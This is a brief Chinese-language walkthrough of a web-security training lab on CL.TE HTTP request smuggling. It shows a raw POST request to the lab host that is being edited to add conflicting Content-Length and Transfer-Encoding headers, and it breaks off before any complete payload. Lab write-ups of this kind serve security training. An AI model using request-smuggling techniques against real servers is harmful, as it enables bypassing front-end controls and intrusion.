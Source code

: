 # 实验室:HTTP 请求走私，基本 CL。TE 脆弱性

本实验涉及前端和后端服务器，前端服务器不支持分块编码。前端服务器拒绝不使用 GET 或 POST 方法的请求。

为了解决这个实验，偷偷向后端服务器发送一个请求，这样后端服务器处理的下一个请求看起来使用了`GPOST`方法。

访问实验室:

![](img/9463ccf52e68dcf51132351a1671fd04.png)

将请求方法更改为 POST。

```
POST / HTTP/1.1
Host: 0a5c005b031de1e4c0ef4924003b00cb.web-security-academy.net
Cookie: session=HrbfSiDceLLxPD6b5u1w47m0v9R4xY3n
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
**Content-Length: 0 
ADD Transfer-Encoding:**
```

并修改请求。
